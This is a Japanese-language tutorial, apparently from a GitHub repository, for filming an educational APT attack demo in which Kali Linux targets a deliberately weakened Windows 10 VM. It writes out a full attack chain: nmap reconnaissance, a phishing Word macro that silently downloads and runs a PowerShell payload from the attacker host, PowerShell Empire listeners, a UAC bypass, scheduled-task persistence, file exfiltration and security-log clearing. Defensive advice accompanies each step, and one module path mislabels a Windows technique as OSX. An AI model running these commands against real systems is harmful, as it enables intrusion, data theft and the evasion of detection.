

# APT Demo Explanation



# 教育目的のAPT攻撃デモ手順

このドキュメントは、Kali LinuxとWindows 10 21H2を用いた教育目的のAPT（Advanced Persistent Threat）攻撃デモの手順を記述します。デモは情報セキュリティの学習を目的とし、視聴者の興味を引きつけつつ教育的な内容を提供することを目指します。**このデモは許可されたテスト環境でのみ実施し、実際のシステムやネットワークに影響を与えないようにしてください。**

## 前提条件

- **環境**:
  - **攻撃マシン**: Kali Linux（最新バージョン、VirtualBox VM）
  - **対象マシン**: Windows 10 21H2（VirtualBox VM、意図的に脆弱な設定）
     - ウイルスと脅威の防止をOFFにしておく
  - 両VMは同一ネットワーク内で通信可能（例：VirtualBoxのNATネットワーク）
  - スナップショットを事前に作成し、復元可能に設定
- **必要なツール**:
  - Kali Linuxにプリインストール済みのツール（Metasploit、Nmap、Social-Engineer Toolkit、PowerShell Empireなど）
  - Windows 10に脆弱なソフトウェア（例：古いAdobe Reader）や設定（例：ファイアウォール無効、弱いパスワード）を意図的に用意
- **法的・倫理的配慮**:
  - デモは教育目的に限定し、許可された環境でのみ実施
  - 動画撮影時には、倫理的ハッキングの重要性と法的責任を強調
- **動画撮影**:
  - 画面録画ソフト（例：OBS Studio）を用意
  - 各ステップを視聴者に説明するナレーションやスライドを準備

## デモのシナリオ

このデモでは、**フィッシング攻撃**と**PowerShellベースの高度なペイロード**を組み合わせ、APT攻撃のプロセスを模擬します。以下のフェーズをカバーします：

1. 偵察（Reconnaissance）
2. 初期侵入（Initial Access）
3. 権限昇格（Privilege Escalation）
4. 持続的アクセス（Persistence）
5. データ窃取（Data Exfiltration）
6. 痕跡の消去（Covering Tracks）

**攻撃手法の特徴**：
- **高度さ**：PowerShell Empireを使用し、検知されにくいメモリベースのペイロードを展開
- **教育性**：各ステップで攻撃者の意図と防御策を明確に解説

## ステップ・バイ・ステップの手順

### ステップ1：デモの目的と倫理的配慮の説明（動画冒頭）

- **目的**: APT攻撃のプロセスを理解し、防御策の重要性を伝える
- **説明**:
  - 「このデモは教育目的であり、許可されたテスト環境でのみ実施しています」
  - 「実際のシステムやネットワークでこれを行うことは違法です」
  - APT攻撃の概要（長期潜伏、ターゲット特化、組織的）を紹介
- **動画用の工夫**:
  - スライドや図でAPTライフサイクルを視覚化
  - 攻撃者と防御者の視点を強調
  - 例：スライドに「ハッカーの思考を理解して防御を強化！」と記載

### ステップ2：偵察（Reconnaissance）

- **目的**: ターゲット（Windows 10）の情報を収集
- **ツール**: Nmap、theHarvester
- **手順**:
  1. Kali Linuxでターミナルを開き、ターゲットのIPアドレスを確認（例：`192.168.1.100`）
  2. Nmapでポートスキャンを実行：
     ```bash
     nmap -sS -A 192.168.1.100
     ```
     - 解説：「開いているポート（例：445/SMB、3389/RDP）やOS情報を取得」
  3. theHarvesterでターゲットの公開情報を収集（模擬的にローカルデータを使用）：
     ```bash
     theharvester -d target.local -b all
     ```
     - 解説：「攻撃者は公開情報を悪用してフィッシングをカスタマイズ」
- **動画用の工夫**:
  - Nmapの出力を拡大表示し、開いているポートをハイライト
  - 「攻撃者はこの情報で攻撃計画を立てます」とナレーション
  - **防御策**：不要なポートの閉鎖、公開情報の最小化

### ステップ3：初期侵入（Initial Access）

- **目的**: フィッシングで侵入
- **ツール**: Social-Engineer Toolkit (SET)、PowerShell Empire
- **手順**:
  1. SETを起動：
     ```bash
     setoolkit
     ```
  2. 「Social-Engineering Attacks」→「Create a FileFormat Payload」を選択
  3. 悪意のあるマクロ付きWord文書を作成（例：VBAマクロでPowerShellペイロードを起動）
     - サンプルVBAコード（模擬）：
       ```vba
       Sub AutoOpen()
           Shell("powershell -w hidden -c Invoke-WebRequest -Uri http://[Kali_IP]/payload.ps1 -OutFile $env:temp\payload.ps1; powershell -ep bypass -f $env:temp\payload.ps1")
       End Sub
       ```
  4. PowerShell Empireを起動し、リスナーを設定：
     ```bash
     empire
     listeners
     uselistener http
     set Host http://[Kali_IP]:8080
     execute
     ```
  5. エージェントペイロードを生成：
     ```bash
     usestager multi/launcher
     set Listener http
     execute
     ```
     - 生成された`payload.ps1`をKaliのWebサーバーに配置（例：`/var/www/html`）
  6. Windows 10でWord文書を開き、マクロを実行（模擬的にユーザーが「マクロを有効化」）
     - Empireでエージェント接続を確認
- **動画用の工夫**:
  - 偽装メールの例（例：「緊急：請求書確認のお願い」）を画面表示
  - Word文書のマクロ有効化シーンをスローモーションで強調
  - **防御策**：マクロの無効化、アンチウイルス、ユーザートレーニング
  - 例：フィッシングメールの実際の例をYouTubeリンクで紹介（例：`https://youtu.be/UzHJ7fV0fhI`）

### ステップ4：権限昇格（Privilege Escalation）

- **目的**: 一般ユーザーから管理者権限を取得
- **ツール**: PowerShell Empire
- **手順**:
  1. Empireでエージェントを確認：
     ```bash
     agents
     ```
  2. 現在の権限を確認：
     ```bash
     interact [Agent_Name]
     shell whoami
     ```
  3. UACバイパスを試行：
     ```bash
     usemodule privesc/bypassuac
     execute
     ```
     - 成功後、管理者権限のエージェントを確認
  4. （代替）模擬的な脆弱性（例：弱いローカル管理者パスワード）を悪用：
     ```bash
     shell net user administrator [Weak_Password]
     ```
- **動画用の工夫**:
  - 権限昇格前後の`whoami`出力を比較表示
  - 「管理者権限でシステムを完全制御」とナレーション
  - **防御策**：最新のパッチ適用、最小権限の原則、UACの有効化

### ステップ5：持続的アクセス（Persistence）

- **目的**: 再接続可能なバックドアを設置
- **ツール**: PowerShell Empire
- **手順**:
  1. 永続化モジュールを使用：
     ```bash
     usemodule persistence/osx/schtasks
     set Agent [Agent_Name]
     execute
     ```
     - Windowsのスケジュールタスクでペイロードを定期実行
  2. Windows 10を再起動し、Empireで接続を確認
- **動画用の工夫**:
  - 再起動後の接続成功をカウントダウンで演出
  - 「APTは長期間潜伏し、気づかれません」と解説
  - **防御策**：定期的なログ監視、異常検知システム

### ステップ6：データ窃取（Data Exfiltration）

- **目的**: 機密データを盗み出す
- **ツール**: PowerShell Empire
- **手順**:
  1. ターゲットのファイルを探索：
     ```bash
     shell dir C:\Users\[Username]\Documents
     ```
  2. 機密ファイル（例：模擬的な`secrets.txt`）をアップロード：
     ```bash
     upload C:\Users\[Username]\Documents\secrets.txt
     ```
  3. Kali側でファイルを確認
- **動画用の工夫**:
  - 盗まれたファイルの内容を画面表示（例：模擬的な個人情報）
  - 「これが本物のAPTなら、企業秘密が漏洩」と強調
  - **防御策**：データ暗号化、DLPソリューション

### ステップ7：痕跡の消去（Covering Tracks）

- **目的**: 攻撃の痕跡を隠す
- **ツール**: PowerShell Empire
- **手順**:
  1. イベントログをクリア：
     ```bash
     shell wevtutil cl security
     ```
  2. 作成したスケジュールタスクを削除（オプション）：
     ```bash
     shell schtasks /delete /tn EmpireTask /f
     ```
- **動画用の工夫**:
  - ログクリア前後のイベントビューアを比較
  - 「攻撃者は検知を避けるために痕跡を消す」と解説
  - **防御策**：ログのバックアップ、SIEMシステム

### ステップ8：デモのまとめと教訓（動画終盤）

- **目的**: 視聴者に学びを深めさせる
- **説明**:
  - APT攻撃の各フェーズをスライドで振り返り
  - 「攻撃は高度だが、適切な防御で防止可能」と強調
  - 行動喚起：
    - 「セキュリティ意識を高めるトレーニングを」
    - 「定期的なシステム更新と監視を」
- **動画用の工夫**:
  - 模擬Q&Aセッション（事前収集の質問に回答）
  - 最後に「倫理的ハッキングでセキュリティを強化！」と締める

## 動画撮影のポイント

- **視覚的魅力**:
  - 画面を整理、コマンド出力を大きく表示
  - カラフルなテーマやハイライトで注目を引く
- **ナレーション**:
  - ゆっくり明確に、専門用語を簡単な言葉で説明
  - 例：「ペイロードは攻撃者が仕掛ける罠のようなもの」
- **編集**:
  - 重要シーンをズームインやスローモーションで強調
  - 控えめなBGMや効果音（例：接続成功時に「ピコン」）

## 注意点

- **安全性**:
  - 仮想環境以外での実行は禁止
  - デモ用に意図的な脆弱性（例：古いWord、マクロ有効）を設定
